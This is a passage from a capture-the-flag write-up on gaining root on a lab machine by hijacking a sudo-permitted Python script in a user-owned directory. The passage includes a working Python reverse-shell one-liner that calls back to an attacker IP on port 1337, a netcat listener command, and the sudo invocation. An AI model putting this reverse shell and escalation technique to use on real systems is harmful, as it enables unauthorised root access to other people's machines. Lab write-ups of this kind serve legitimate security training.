 ![](images/sudo-l.png)

We have control over the ``BetterSSH/`` directory because we own the parent directory. We simply can rename ```BetterSSH/``` and recreate the python script that we can run as root with the following commands:

```bash
mv BetterSSH BetterSSH2
mkdir BetterSSH
touch BetterSSH/BetterSSH.py
```

We add code for our reverse shell in ```BetterSSH.py```

```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.27",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

We set up our netcat listener on our local machine with ```nc -lvnp 1337```

We run the script with sudo

```bash
sudo /usr/bin/python3 /home/robert/BetterSSH/BetterSSH.py
```

![](images/root.png)

Owned!






